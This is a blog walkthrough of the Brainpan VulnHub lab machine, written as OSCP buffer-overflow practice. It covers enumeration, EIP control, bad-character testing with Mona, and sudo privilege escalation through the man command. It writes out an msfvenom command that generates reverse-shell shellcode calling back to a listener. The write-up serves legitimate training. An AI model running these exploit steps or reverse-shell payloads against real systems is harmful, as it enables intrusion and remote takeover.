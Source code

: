 ```yaml
---
layout: post
title: Brainpan Walkthrough
published: true
---
```

I've had [Brainpan](https://www.vulnhub.com/entry/brainpan-1,51/) downloaded for awhile and for some reason I haven't ran it, so having a couple of hours last night I decided to see what it was all about. Unbeknownst to me, it was exactly what I was needing...  



 
      ****Spoiler Alert****          ****Spoiler Alert****



I had been wanting to practice buffer overflows for my upcoming OSCP test, and have been working on getting Windows machine setup just for this running [vulnserver](https://github.com/stephenbradshaw/vulnserver) or something similar. As you will shortly see, this machine has that and a bit more.   

****Initial Enum****

![Brainpan NmapOutput1]({{ site.url }}/images/Brainpan/nmap1.JPG)  
![Brainpan NmapOutput2]({{ site.url }}/images/Brainpan/nmap2.JPG) 

We have an unknown service on TCP/9999 and the Python SimpleHTTPServer module running on TCP/10000. Let's see what's happening on the web service:  

![Brainpan Base_Page]({{ site.url }}/images/Brainpan/base_page_10000.JPG)  

Err, ok. A little on the nose here huh? The source shows that this is only an infographic image being hosted.  
Let's hit TCP/9999 with NetCat and see what that's all about:  

![Brainpan access_9999]({{ site.url }}/images/Brainpan/access_9999.JPG)  

Hmm, not much here either. We need more info. Let's go back to the web service and enumerate further using Nikto.  

![Brainpan Nikto]({{ site.url }}/images/Brainpan/nikto.JPG)  

Cool, we have an extra directory that we can test out ("/bin/"). We'll check that out:  

![Brainpan EXE]({{ site.url }}/images/Brainpan/EXE.JPG) 

Since we're being given the brainpan executable here, let's see if we can find the password for the service.

![Brainpan pass]({{ site.url }}/images/Brainpan/brainscan-exe_pass.JPG) 

I'm not a very good coder.....but I'll bet that's the password. 

![Brainpan granted]({{ site.url }}/images/Brainpan/brainpan_access_granted.JPG) 

Awesome. We've cracked the app and are granted access to.....um....well. Yeah nothing. No menu, shell, or extra ports were opened by using the password (must still be in development). So since it's still a service running on the remote server, why not run it locally and see if we can crash it?  

****Buffer Overflow****

One of the best resources for learning about stack-based buffer overflows is [dostackbufferoverflowgood](https://github.com/justinsteven/dostackbufferoverflowgood). I won't go over all the steps or explain all the scrpt options here, but much of my scripts used is from that short course, just a bit modified (highly recommend going through). Moving on...

We can run brainpan.exe using Wine (Windows Emulator) and then use a simple Python script to send an increasing number of "A's" into the password field to attempt to trigger a crash. That will tell us whether or not the application is susceptible to a buffer overflow attack.



![Brainpan BOF_Trigger]({{ site.url }}/images/Brainpan/bof_trigger.JPG) 

Bingo! We're able to crash the application, almost immediately at 900 bytes.  
Once we have the crash byte count, we can restart the app, and attach our debugger ([Immunity](https://www.immunityinc.com/products/debugger/)) to the process for further analysis. 

Next we need to send it a fixed byte count (equal to the amount that will crash it), but of all unique values. This will allow us to analyze the EIP register in Immunity to determine at what point in that byte string we can start to control the flow of the program.  
To generate the unique pattern you can use the "pattern_create" Ruby script that comes with MetaSploit.  
Once we plug the unique value into our script and run it, we can then copy the value of EIP in Immunity.  

![Brainpan EIP_Control]({{ site.url }}/images/Brainpan/immunity_eip_control.JPG)  

Now we can copy out the unique value of the EIP to determine the offset value (where EIP is located exactly within the 900 bytes).  
Again, we can calculate this with the MetaSploit "pattern_offset" Ruby script (which gives us a value of 524 bytes).  
Having these values we can run the following script to ensure we have complete control over EIP:  

![Brainpan EIP_Control2]({{ site.url }}/images/Brainpan/bof_eipcontrol2.JPG)  

Here, we're buffering "A's" up to the length of the buffer, less our offset position which is when we start writing "B's" (4 exactly), we then write 4 x "C's" into the ESP register, and complete the trailing padding with whatever is left with "D's". Running the script against the restarted app shows us the following in Immunity:  

![Brainpan EIP_B]({{ site.url }}/images/Brainpan/immunity_eip_control_b.JPG) 

As you can see, our EIP register has 4 x \x42's (Hex for B's), which means we can control the flow of the program!  

Next is to check for bad characters that the application will not support. This would keep our exploit from running correctly (or at all) when executing. A separate script full of every possible bad character can be fired at the app, then analyzed and counted in Immunity, but that can be tedious. We can also generate a list of bad characters, copy that file to a directory that Immunity can access and run the [Mona module](https://github.com/corelan/mona) within Immunity to test the app that way (much easier).  An example of looking for bad characters in Immunity using Mona is below:  

![Brainpan Mona]({{ site.url }}/images/Brainpan/badchar_test.JPG) 

We've got a couple of hits! \x00 and \x0a will be excluded when we build our shellcode.  

The next step is to determine from which location we can launch our shellcode from? For this we can run another Mona module command:  
__!mona jmp -r esp -cpb "\x00\x0a"__  

This command searches for modules that avoid the bad characters, however you will need to ensure there are no DEP or ASLR protections. For this I only saw the brainpan.exe process so I ended up opening that process up and manually searching for a "JMP ESP" memory location, which I found at 0x311712F3. 

The [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) tool is used to generate the shellcode we'll use to trigger a reverse shell from the brainpan overflow vulnerability we found.  
Our command will be the following:  
__msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.232.130 LPORT=443 -b "\x00\x0a" EXITFUNC=THREAD -f python__  

This will generate the appropriate shellcode that we can now place into our final exploit script:  

![Brainpan Exploit]({{ site.url }}/images/Brainpan/brainpan_exploit.JPG)  

Note that the script above utilizes the Python struct module for formatting the "JMP ESP" address in the script into Little-endian format (otherwise you would need to do this yourself). 

Now it's time to test it out! We definitely want to test it locally first so we don't inadvertantly crash the service on the remote host. So we'll restart our local brainpan.exe app and fire our script. 

![Brainpan ExploitTest]({{ site.url }}/images/Brainpan/exploit_success_test.JPG)  

Winner-Winner! Ok, now let's try it again, but on the target system:  

![Brainpan ExploitSuccess]({{ site.url }}/images/Brainpan/exploit_success.JPG)  

Woo-hoo! Worked like a charm, but not home free yet. It looks like we only have a limited shell. ಥ_ಥ  

****PrivEsc****

So let's see what privileges puck has (if any):  

![Brainpan Sudo]({{ site.url }}/images/Brainpan/sudo_nopass.JPG)  

Nice, right on the mark. We can run /home/anansi/bin/anansi_util as root (whatever that is). Running it with sudo shows that we have 3 options (network, proclist, and manual). I couldn't figure out how to string together the correct command sequences, until I searched how to [drop to a shell from the man comamnd](http://www.securitynewspaper.com/2018/04/25/proper-use-sudo-linux-privilege-escalation/). 

Then I knew I had it  

![Brainpan root_priv]({{ site.url }}/images/Brainpan/root_privesc.JPG)  

And......

![Brainpan Flag]({{ site.url }}/images/Brainpan/flag.JPG) 


Like I mentioned I had been needing to brush up on my buffer overlows and this was exactly that, plus a good privesc primer. Nice combo all the way around.
